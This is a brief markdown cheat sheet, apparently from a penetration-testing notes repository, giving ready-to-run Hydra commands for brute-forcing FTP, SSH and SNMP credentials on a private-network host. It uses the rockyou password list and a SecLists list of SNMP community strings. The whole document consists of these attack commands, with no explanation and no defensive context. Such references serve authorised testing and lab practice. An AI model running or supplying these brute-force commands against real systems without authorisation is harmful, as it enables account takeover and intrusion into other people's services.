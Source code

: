 # FTP

## Credential Lists 
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt -t 64 ftp://192.168.100.200
```
## Specific User
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 ftp://192.168.100.200 
```

## Specific Password
```bash
hydra -L usernames -p password -t 64 ftp://192.168.100.200
```

# SSH

## Credential Lists
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt -t 64 ssh://192.168.100.200
```

## Specific User
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 ssh://192.168.100.200
```

## Specific Password
```bash
hydra -L usernames -p password -t 64 ssh://192.168.100.200
```


# SNMP

## Community String List
```bash
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt -t 64 192.168.100.200 snmp
```
